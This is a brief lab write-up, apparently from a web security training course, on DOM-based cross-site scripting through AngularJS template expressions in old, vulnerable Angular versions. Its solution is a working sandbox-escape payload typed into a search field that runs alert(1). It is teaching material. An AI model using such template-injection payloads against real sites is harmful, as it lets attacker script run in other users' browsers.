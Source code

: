 # Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
## Description

When an old and vulnerable version of Angular is used, it might be possible to trigger DOM based xss. Example: http://jsfiddle.net/2zs2yv7o/1/

## Solution

In the search field, enter: `{{constructor.constructor('alert(1)')()}}`